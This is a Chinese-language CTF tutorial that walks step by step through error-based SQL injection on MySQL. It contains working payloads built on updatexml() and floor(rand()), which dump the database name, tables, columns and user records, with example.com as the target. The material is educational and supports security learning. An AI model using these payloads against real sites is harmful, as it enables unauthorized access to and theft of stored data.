





# CTF入门教程：P38：报错注入攻击流程 🔍

在本节课中，我们将要学习SQL注入攻击中的一种重要技术——报错注入。报错注入的核心在于利用数据库的错误回显信息，来获取我们想要的数据，例如数据库名、表名、字段内容等。我们将从判断注入点开始，逐步学习如何构造攻击语句，并理解其背后的原理。

## 判断是否存在注入点

上一节我们介绍了SQL注入的基本概念，本节中我们来看看如何判断一个网站是否存在SQL注入漏洞。

判断是否存在注入点的方法很简单：在URL参数后添加一个单引号 `‘`。如果页面返回数据库错误信息，说明用户输入被拼接到SQL语句中执行，并且单引号破坏了原语句的语法结构，这通常意味着存在SQL注入漏洞。

例如，原始URL可能是：
`http://example.com/page?id=1`

我们尝试访问：
`http://example.com/page?id=1‘`

如果页面出现类似“You have an error in your SQL syntax”的报错，则说明可能存在注入点。反之，如果页面正常显示，则可能不存在注入点，或者需要尝试其他闭合方式。



## 判断注入类型

在确认存在注入点后，我们需要判断注入的类型是数字型还是字符型，这决定了后续攻击语句的构造方式。

以下是判断字符型注入的常用方法：

1.  **构造测试语句1**：`id=1‘ and 1=1 --+`
    *   如果页面正常显示，说明 `and 1=1` 这个条件被数据库成功执行。
2.  **构造测试语句2**：`id=1‘ and 1=2 --+`
    *   如果页面显示异常（如无内容），说明 `and 1=2` 这个假条件导致了查询结果为空。

如果以上两个测试页面的显示结果不同，则基本可以判定为**字符型注入**。`--+` 或 `#` 用于注释掉原SQL语句中后续的部分，确保我们添加的语句能正确执行。

**简单判断法**：在参数值后添加一串字母（如`id=1abc‘`），如果页面能正常显示，则通常是字符型注入，因为字母被包含在引号内，没有破坏语法。

## 使用updatexml()函数获取数据

判断出注入类型后，我们就可以利用数据库的报错函数来获取信息。`updatexml()` 是一个常用的报错函数。

**函数公式**：
`UPDATEXML(XML_document, XPath_string, new_value)`

这个函数原本用于更新XML文档的内容。当第二个参数 `XPath_string` 不是合法的XPath格式时，数据库就会报错，并将这个非法字符串的内容回显在错误信息中。我们可以利用这一点，让数据库执行我们想要的查询语句，并将查询结果放在报错信息里显示出来。

以下是获取当前数据库名的攻击语句构造步骤：

1.  先写出函数框架：`updatexml(1, 2, 3)`
2.  在第二个参数位置，使用 `concat()` 函数拼接我们的查询语句和特殊字符。
    *   `0x7e` 是波浪线 `~` 的十六进制，作为一个明显的标记，方便我们在报错信息中快速定位所需内容。
    *   `database()` 是MySQL内置函数，用于查询当前数据库名。
3.  最终构造的Payload如下：

```sql
and updatexml(1, concat(0x7e, database(), 0x7e), 3)
```

将这段Payload附加到注入点后，例如：
`http://example.com/page?id=1‘ and updatexml(1, concat(0x7e, database(), 0x7e), 3) --+`

执行后，页面可能会报错：“XPATH syntax error: ‘~security~‘”。两个波浪线中间的内容 `security` 就是我们想要的当前数据库名。



**为什么这样构造？**
*   `updatexml()` 要求第二个参数是合法的XPath字符串，我们故意传入 `concat(0x7e, database(), 0x7e)` 这个非XPath字符串来触发报错。
*   `concat()` 函数用于连接字符串，确保查询结果和我们的标记（0x7e）能一起被报错信息输出。
*   除了 `0x7e`（~），其他一些特殊字符如 `0x24`（$）有时也能达到类似效果。

## 获取数据库中的表名

在得知数据库名后，下一步是获取该数据库中的所有表名。

我们需要查询系统数据库 `information_schema.tables` 来获取信息。构造的Payload如下：

```sql
and updatexml(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database())), 3)
```

**关键点解释**：
*   `select group_concat(table_name) from information_schema.tables where table_schema=database()`：这条子查询用于从系统表中查询当前数据库的所有表名，并用 `group_concat()` 函数将所有表名合并成一个字符串。
*   整个子查询需要用括号 `()` 括起来，作为一个整体传递给 `concat()` 函数。

执行后，报错信息会显示类似：“XPATH syntax error: ‘~users,emails,products~‘”，从而暴露出表名。

## 获取表中的字段名

确定表名（例如 `users`）后，我们需要获取该表有哪些字段（列）。

我们继续查询 `information_schema.columns` 系统表。构造的Payload如下：

```sql
and updatexml(1, concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=‘users‘)), 3)
```

执行后，报错信息会显示类似：“XPATH syntax error: ‘~id,username,password~‘”，从而暴露出字段名。

## 获取表中的数据记录

最后，我们可以查询具体表中的数据了。例如，查询 `users` 表中的 `username` 字段。

直接查询可能会因为数据过长而无法完全显示（`updatexml` 报错通常只显示前32个字符左右）。因此，我们需要使用 `substring()` 或 `substr()` 函数进行分次截取。

**第一次截取（第1到30个字符）**：
```sql
and updatexml(1, concat(0x7e, (select substring(group_concat(username),1,30) from users)), 3)
```

**第二次截取（第31到60个字符）**：
```sql
and updatexml(1, concat(0x7e, (select substring(group_concat(username),31,30) from users)), 3)
```

重复这个过程，直到获取所有数据。也可以使用 `limit` 子句一条一条记录地获取，但效率较低。

## 其他报错注入方法简介

除了 `updatexml()`，还有其他方法可以实现报错注入，例如基于 `floor()`、`rand()` 和 `group by` 的虚拟表报错。

其核心Payload结构如下：
```sql
and (select 1 from (select count(*), concat(database(), floor(rand(0)*2)) as x from information_schema.tables group by x) as a)
```

**原理简述**：
1.  `floor(rand(0)*2)` 会生成一个可预测的序列（如 0,1,1,0,1,1…）。
2.  当与 `group by` 一起使用时，MySQL在构建虚拟表的过程中，可能会因为主键重复而报错。
3.  报错信息中会包含我们 `concat()` 进去的查询结果（如 `database()`）。

这种方法相对复杂，但也是CTF中可能遇到的考点。了解其原理有助于应对各种变形。

## 总结与注意事项

本节课中我们一起学习了报错注入攻击的完整流程：



1.  **判断注入**：通过添加单引号等符号观察页面是否报错。
2.  **判断类型**：使用 `and 1=1` 和 `and 1=2` 测试是否为字符型注入。
3.  **获取信息**：利用 `updatexml()` 函数的报错机制，逐步获取数据库名、表名、字段名和具体数据。
4.  **应对限制**：使用 `substring()` 函数分段获取长数据。





**给初学者的建议**：
*   **多动手敲代码**：理解Payload每个部分的作用，亲自在实验环境或数据库管理工具中执行，熟悉语法和可能出现的错误。
*   **注意闭合**：确保注入语句能正确嵌入原SQL语句中，必要时使用注释符 `--+` 或 `#`。
*   **理解原理**：明白为什么报错能泄露信息，而不仅仅是记忆Payload，这样才能在遇到WAF过滤或变形时灵活应对。

报错注入是一种非常高效的信息获取手段，熟练掌握它对于CTF Web安全方向的学习至关重要。